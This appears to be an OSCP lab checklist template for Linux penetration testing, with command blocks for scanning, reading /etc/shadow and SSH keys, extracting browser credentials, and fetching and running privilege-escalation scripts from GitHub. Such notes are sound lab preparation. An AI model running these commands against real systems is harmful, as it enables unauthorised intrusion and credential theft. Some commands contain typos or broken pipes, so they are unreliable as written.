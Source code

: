 <% tp.file.rename("0_SystemChecklist")%>

# Enumeration

```bash
mkdir /oscp/lab/x
```

```bash
i="$hip";sudo nmap --osscan-guess -T 5 -A -p- $i -oX - | xsltproc -o 0_overview.html - && firefox 0_overview.html && sudo nmap -T 5 -sUV --top-ports 100 $i -oN 0_udp_top100.txt
```

> Then, create services templates.

# Initial Foothold

##### Utilized software versions
```

```
`searchsploit` and Google Dorks
##### NSE scripts
```bash
ls /usr/share/nmap/scripts
```

> Also, use the service templates
# Loot

Hostname `hostname`
	
##### Users
```bash
cat /etc/passwd; cat /etc/shadow; w
```
	
`unshadow passwd shadow > unshadowed.txt` 
##### Network
```bash
ip a; /sbin/route; netstat -anp; sudo iptables -S
```
	
##### Interesting files
```bash
ls /home/*/.gpg/; ls /home/*/.ssh/; cat /home/*/.*_history; find / -name ".git" | cd | git config --list 2>/dev/null
```
	
##### Home folder
```bash
ls -al /home/*/; ls -al /root/; find / -user $(id -un) -type f 2>/dev/null | grep -Ev "^/sys|^/run|^/proc"
```
	
##### Advanced
X-Server: `pidof X`  (Extract cookies/passwords from browser with `pasco index.dat`)
Mounted Volumes: `cat /etc/fstab; mount; /bin/lsblk`
Drivers: `lsmod`, `/sbin/modinfo [module]`
# PrivEsc
##### Find Working Dir for attack
```bash
find / -writable -type d 2>/dev/null
```
	

##### LinPEAS
```bash
curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh -o linpeas.sh; chmod +x linpeas.sh; ./linpeash.sh -a -r > linpeas.txt &
```
Read it with color-highlighting using `less -r linpeas.txt`

##### Things not covered by linpeas
```bash
grep "CRON" /var/log/syslog; dpkg -l
```
	

##### Kernel Exploits
```bash
wget https://raw.githubusercontent.com/mzet-/linux-exploit-suggester/master/linux-exploit-suggester.sh | sh | tee LEP.txt
```
	
